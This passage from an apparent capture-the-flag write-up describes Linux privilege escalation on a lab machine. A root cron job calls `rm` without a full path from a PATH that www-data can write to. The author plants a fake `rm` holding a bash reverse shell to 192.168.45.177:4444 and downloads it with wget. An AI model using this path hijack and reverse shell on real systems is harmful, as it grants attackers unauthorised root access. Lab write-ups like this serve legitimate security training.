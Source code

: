 Grab the user flag.

## Privilege Escalation

### Path Hijack --> Root Shell

I ran a `linpeas.sh` scan and it found this:

```
[+] Cron jobs
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#scheduled-cron-jobs          
/usr/bin/crontab                                                                             
incrontab Not Found
-rw-r--r-- 1 root root 1042 Oct 11  2019 /etc/crontab                                        

/etc/cron.d:
total 20
drwxr-xr-x  2 root root 4096 Oct 25  2021 .
drwxr-xr-x 77 root root 4096 Dec 13  2021 ..
-rw-r--r--  1 root root  102 Oct 11  2019 .placeholder
-rw-r--r--  1 root root  712 Dec 17  2018 php
-rw-r--r--  1 root root  348 Oct 25  2021 wpclean
```

There's a `wpclean` thing running periodically on the machine. Here's the contents of that script:

```bash
# /etc/cron.d/wpclean: crontab entries to cleanup wordpress uploads folder

HOME=/var/www/html/wordpress/wp-content/uploads
PATH=~/bin:/usr/bin:/bin

# in case the intern do something silly, delete all files with invalid image extension
*/5 * * * * root /usr/bin/find . -type f -not -regex '.*\.\(jpg\|jpeg\|png\|gif\)' -exec bash -c "rm -f {}" \;
```

First thing I noticed was that this was using a custom `HOME` variable, which is included in the `PATH` variable as the first directory and the fact that `www-data` can write to their `HOME` directory. The `rm` binary they execute here does not have the full path, so we can create our own `rm` file that gives a reverse shell when executed.

Here's the contents of my reverse shell:

```bash
/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.45.177/4444 0>&1'
## need to specify full paths!
```

Run these commands:

```bash
cd /var/www/html/wordpress/wp-content/uploads
mkdir bin
cd bin
wget <IP>/rm
chmod +x rm
```
